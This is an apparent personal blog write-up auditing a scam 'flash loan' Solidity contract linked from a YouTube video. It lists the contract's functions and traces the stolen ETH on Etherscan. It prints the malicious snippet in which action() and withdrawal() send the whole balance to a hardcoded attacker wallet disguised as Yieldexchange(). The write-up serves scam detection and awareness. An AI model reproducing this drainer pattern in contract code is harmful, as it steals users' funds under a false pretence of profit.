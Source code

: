 ## Hello World....of malicious Smart Contracts

### Welcome to my first smart contract audit(It will be rudimentary and probably provide little value but I wanted to docuemtn my first step into this world.)

I have been reading about flash loan bots / MEV bots and was interested in the arbitrage aspect and the related potentila profitability. Much like any easy money scheme there are more opportunities for malcious intent rather than genuine money making strategy. As an infosec professional, i'm already extermely skeptical of everything so naturally, I was drawn to looking into anything claiming to make money FAST. 

I stumbled upon this [Youtube Video](https://www.youtube.com/watch?v=hqsqbjPKTRI&t=2s) talking about a flash loan. linked in the video description was a [Smart Contract](https://githubdata.com/usercontent/raw-data/eth_multiplier_contract_code_raw-30848ds4) I know the VERY bare basics of programming and solidity but I wanted to dig into this with the aid of AI. 

My OSINT senses were tingling as well from loking at the comment section of the video. All comments were made by accounts that all had the same "user-XXXX" syntax. This suggests that these were most likely bot accounts created by the original poster to make this video and code seem more legitimate. 



Etherscan has a newer application called [Code Reader](https://etherscan.io/code-reader). I copied the code into here and utilizing the ChatGPT API asked a few questions about this contract.

* What are the functions of this contract?

"The "FlashLoanArbitrage" contract contains the following functions:

1. **Constructor**: This function initializes the contract's token symbol, token name, and loan amount when the contract is first created.

2. **receive()**: A fallback function that allows the contract to receive funds.

3. **findNewContracts**: This function is used to find newly deployed contracts on the Uniswap exchange.

4. **findContracts**: This function extracts the newest contracts from the Uniswap exchange.

5. **loadCurrentContract**: This function loads the current contract.

6. **nextContract**: This function extracts the contract from Uniswap.

7. **memcpy**: This function copies data from the source to the destination in memory.

8. **orderContractsByLiquidity**: This function orders the contracts by available liquidity.

9. **calcLiquidityInContract**: This function calculates the remaining liquidity in a contract.

10. **getMemPoolOffset**: This function returns the memory pool offset.

11. **parseMempool**: This function parses the memory pool.

12. **keccak**: This function returns the keccak-256 hash of a contract.

13. **checkLiquidity**: This function checks if a contract has enough liquidity available

14. **getMemPoolLength**: This function returns the length of the memory pool.

15. **beyond**: This function modifies a slice to contain everything from the first occurrence of needle to the end of the slice.

16. **getMemPoolHeight**: This function returns the height of the memory pool.

17. **callMempool**: This function calls and returns the data of all the contracts in the mempool.

18. **toHexDigit**: This function returns the hexadecimal representation of a digit.

19. **_callMEVAction**: This function performs a MEV action call.

20. **Yieldexchange**: This function returns the selected contract's address.

21. **action**: This function performs a frontrun action on different contract pools.

22. **withdrawal**: This function withdraws the funds back to the contract creator's address.

23. **uint2str**: This function converts an unsigned integer to a string.

24. **getMemPoolDepth**: This function returns the depth of the memory pool.

25. **mempool**: This function loads all Uniswap memory pools into memory."

### 2 odd functions that stuck out to me were action and Yieldexchange. Here are the code snippets of these functions:

``` solidity
   }

    function _callMEVAction() internal pure returns (address) {
        return parseMempool(callMempool());
    }
    function Yieldexchange() public pure returns (address) {
		return 0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05;
	}
    /*
     * @dev Perform frontrun action from different contract pools
     * @param contract address to snipe liquidity from
     * @return `liquidity`.
     */
    function action() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }

    /*
     * @dev withdrawals profit back to contract creator address
     * @return `profits`.
     */
    function withdrawal() public payable {
        payable(Yieldexchange()).transfer(address(this).balance);
    }
```

* Ths function Yieldexchange defines an wallet address. This is NOT a yield exchange.
* And the function action calls Yieldexchange with the transfer function essentially transferring out the etheruem used to run this "Flashloan" to an external wallet.
* I input this address into etherscan and my hypothesis was correct. Under internal transaction on this address there was a deposit from an external source. I checked the transaction hash assocaited with the .15 ETH transfer.

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/1.jpg)

* Next I checked the external wallet address(0x8D73310409d758693a8b3234E7811319865734F4) that had transferred their funds out  this external wallet(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) unknown to them

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/2.jpg)

*As you can see this wallet receieved a deposit of ETH from Coinbase. This ETH was then used to create the contract(FlashLoan). The Contract was now funded and the owner of the ETH Address 0x8D73310409d758693a8b3234E7811319865734F4, then initiated the contract to use the .15 ETH in the "FlashLoan". After this was initiated this simply ran through tha contract code up until it hit the Yieldexchange function which defined the malicious wallet address(0xc3F62f395A2e663fe26289f6dfcBDF1dE87CeB05) and simply transferred the funds to this account. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/3.jpg)

* In this last photo you can see all associated addressed interacting and seeing my previously stated summary of events playing out. 

![alt text](https://github.com/Kanwrath/Web3-Ethereum-Smart_Contracts-Blockchains/blob/main/SmartContractAudits/img/4.jpg)

## Lessons learned

* ALWAYS review any contract offline. Obviously, with open source anything code will be copied and re used etc but prior to utilizing a contract and funding it it may be best to have a professional review the code or reach out to a community member on either a solidity forum 
